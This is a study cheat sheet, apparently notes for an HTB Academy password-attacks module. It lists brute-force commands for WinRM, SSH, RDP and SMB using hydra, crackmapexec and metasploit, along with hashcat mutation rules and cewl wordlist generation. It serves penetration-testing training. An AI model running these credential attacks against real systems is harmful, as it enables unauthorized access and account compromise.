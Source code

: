 ## HTB-ACADEMY (Passsword attacks)
## Ivan Medina
---

### Remote attacks

##### Network services

- Winrm crack

```
crackmapexec winrm <ip> -u user.list -p password.list
```

```
evil-winrm -i <ip> -u user -p password
```

- SSH crack

```
hydra -t 4 -L user.list -P password.list <ip> ssh -v
```

- RDP crack

```
hydra -L user.list -P password.list <ip> rdp
```

```
xfreerdp /v:<ip> /u:<user> /p:<password>
```

- SMB crack with metasploit

```
use auxiliary/scanner/smb/smb_login
```

- SMB shares

```
crackmapexec smb <ip> -u "user" -p "password" --shares
```

- SMB client

```
smbclient -U user \\\\10.129.42.197\\SHARENAME
```

##### Password mutations

*Password rules*

| Function   |      Description      |
|----------|:-------------:|
| : |	Do nothing. |
| l |	Lowercase all letters. |
| u |	Uppercase all letters. |
| c |	Capitalize the first letter and lowercase others. |
| sXY |	Replace all instances of X with Y. |
| $! |	Add the exclamation character at the end. |

*Generate wordlist with rules*

```
hashcat --force password.list -r custom.rule --stdout | sort -u > mut_password.list
```

*Generate wordlist from webpage*

```
cewl https://www.inlanefreight.com -d 4 -m 6 --lowercase -w inlane.wordlist
```

### Windows Local Password Attacks

...